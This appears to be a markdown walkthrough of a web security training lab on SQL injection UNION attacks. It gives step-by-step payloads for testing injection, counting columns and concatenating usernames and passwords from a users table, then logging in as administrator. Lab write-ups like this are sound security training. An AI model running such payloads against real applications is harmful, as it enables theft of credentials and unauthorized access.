





# Lab: SQL injection UNION attack, retrieving multiple values in a single column

> Lab Objective: perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

- Firstly, filter products based on category (e.g., `?category=Accessories`)

- Use this payload to check is SQLi exist `Accessories'`
  

  - Which indicates that SQLi exist.

- Use `' UNION SELECT null, ... -- -` to see how many columns are returned by the main query, then replace each `null` with `'a'` to check which column can carry a string value.

- The main query return two columns, and the second column only can carry a string value.

  - using this payload `' UNION SELECT null, 'a' -- -`
    

- Use this payload `' UNION SELECT null, username || '~' || password FROM users -- -`, to retrieve all usernames and passwords from users table.

  > Note: table & column names are provided in the lab description

  

- Use the administrator credentials to log in as administrator.
  
  
